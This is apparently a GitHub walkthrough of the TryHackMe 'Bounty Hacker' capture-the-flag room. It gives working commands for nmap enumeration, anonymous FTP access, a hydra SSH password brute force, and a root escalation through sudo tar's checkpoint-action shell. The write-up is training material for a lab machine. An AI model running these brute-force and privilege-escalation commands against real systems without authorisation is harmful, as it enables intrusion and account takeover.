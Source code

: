 # Bounty Hacker 
 ~ https://tryhackme.com/room/cowboyhacker
* ### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* ### Assuming that your are using Attack-box or conntected to VPN. If not, do refer to [vpn_connection](https://github.com/shybu9/TRY-HACK-ME/tree/main/OPEN-VPN-CONNECTION "OPEN VPN CONNECTION")

<br>

![bonty intro](https://user-images.githubusercontent.com/112984045/200177378-c657e25e-8fa7-43fa-b5de-7c34aa08ee05.png)
 ~ the IP will be given once you join the room and Start Machine succefully after connecting to OPEN-VPN
 
 ## ENUMERATION :

 * For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command : 
 ```bash
 nmap -sVC -T4 -v <IP> 
 ```
 ![bonty nmap](https://user-images.githubusercontent.com/112984045/200179161-11ae6f38-9148-47f6-acbc-267679af2992.png)
  <br>~ we can add -v argument for more verbose output.
 
 * I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shybu9/port-Scanner)
 ![bonty portscanner](https://user-images.githubusercontent.com/112984045/200180020-c653c656-2254-4224-b674-866404b281eb.png)<br>
  ~ I prefer this tool because of its speed as you can see it just took 858 seconds for scanning 65535 ports.Even still some improvements to be done
 
 ### ANALYSING BOTH SCANS :
 * number of OPEN PORTS : 3
 * PORT NUMBERS : 21,22,80
 * OPERATING SYSTEM : Uinux, Linux
 * service running on PORT 21 : ftp
 * service running on PORT 22 : ssh
 * service running on PORT 80 : http
 
 ## FOOTHOLD
 
 * `the ftp port 21 has Anonymous FTP login allowed (FTP code 230)`
 ![bonty ftpmarked](https://user-images.githubusercontent.com/112984045/200180232-5e8d8e21-8bdc-4e18-b1c6-f7f3a30ce9ba.png)
 <br> ~ Therefore we can login to ftp without password by using USERNAME: Anonymous.
 
 
 ![bonty ftp login](https://user-images.githubusercontent.com/112984045/200180807-8c088b60-5245-4a8e-8fd2-5261e67f2263.png)
 <br> ~ After login have observed the files using the command:
 ```bash
 ls -la
 ```
 <br>
 
 * As we cannot read the files on shell, we will download those files to our local system using commands:
 ``` bash
 get locks.txt
 ```
 ```bash
 get task.txt
 ```
 <br>
 
 * Now we can read the content in the files using command:
 ``` bash
 cat locks.txt
 ```
 ![bonty locks](https://user-images.githubusercontent.com/112984045/200181166-706202a0-397a-4215-aaea-b415642294d5.png)
  <br> ~ This file looks like password list, This could be helpfull for any further bruteforce.
  <br>
  
  ``` bash
  cat tash.txt
  ```
  ![bonty task](https://user-images.githubusercontent.com/112984045/200181361-2a32ec55-cc5d-4cfc-9312-54712a80668b.png)
  <br> ~ There is a message which is written by 'lin'
  ![bonty 3](https://user-images.githubusercontent.com/112984045/200181716-bc85faea-1009-495f-a21d-7e7a36c1fdc9.png)
  <br>
  
  `* As we have login access to ftp port hence there is only port 22 which could be bruteforce using locks.txt i.e ssh`
   ![bonty 4](https://user-images.githubusercontent.com/112984045/200181900-16b07e3f-d763-443a-9a8b-b097ea46b0ed.png)
   <br>
   
   * We have username: 'lin' and password list: locks.txt. We can use hydra tool for bruteforcing ssh server.
   <br>command:
   ```bash
   hydra -l lin -P locks.txt ssh://<IP>
   ```
   ![bonty hydra](https://user-images.githubusercontent.com/112984045/200182851-8e096ab3-b256-47d3-aa9b-8825637ee755.png)
   <br> ~ Now we can login to ssh using these credentials.
   ![bonty 5](https://user-images.githubusercontent.com/112984045/200183044-0a8e07d5-d71c-4232-be91-ef66868be99c.png)

 
   
   <br>
   
   * After logging in to ssh we can look for file contents and read them using the same commands :
   ```bash 
   ls -la
   ```
   ```bash
   cat user.txt
   ```
   ![bonty 5](https://user-images.githubusercontent.com/112984045/200183130-ea0fc571-676e-47bc-9790-122cbc2be4fb.png)
<br>
   
   ## PRIVILEGE ESCALATION :
  * To check the root level access on command or authority to read, write, execute on files, we use command :
  ```bash
  sudo -l
  ```
  ![bonty sudo-l](https://user-images.githubusercontent.com/112984045/200184909-39ac8c6a-66dd-4ba5-8aa2-a82be628221b.png)
   <br> ~ we can observe that user lin can run the commad tar as sudo.
   
  <br>
  
  * We can look in [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) for a command to escalate.
  ![bonty gtfbins tar](https://user-images.githubusercontent.com/112984045/200183946-d92a93da-2afa-4d22-9c5f-9a8259c89517.png)
<br>

* Finally we can run the command :
```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
<br> ~ congo you are in.

* Now change directory to /root and read the flag using the commands :
```bash
cd /root
```
```bash
cat root.txt
```

`DO SUBMIT YOUR FLAG TO COMPLETE THE TASK`
   
### FOR ANY DOUBTS OR SUGGESTIONS DO WRITE TO shy.bu9@gmail.com
   
